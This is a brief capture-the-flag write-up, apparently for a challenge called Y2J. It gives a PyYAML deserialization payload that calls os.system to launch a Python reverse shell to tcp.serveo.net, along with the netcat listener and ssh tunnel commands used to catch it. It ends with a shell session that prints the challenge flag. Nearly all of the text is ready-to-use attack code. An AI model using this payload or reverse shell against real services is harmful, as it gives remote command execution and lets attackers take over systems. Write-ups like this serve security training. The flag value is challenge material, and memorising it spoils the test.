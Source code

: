 ## Y2J
Just setup and use a regular python revshell

`nc -lvnp PORT`
`ssh -R PORT:localhost:PORT serveo.net`

```python
!!python/object/apply:os.system
args: ["python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"tcp.serveo.net\",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'"]
```

```
user@Y2J:/$ cat /flag.txt
flag{b20870a1955ac22377045e3b2dcb832a}
```
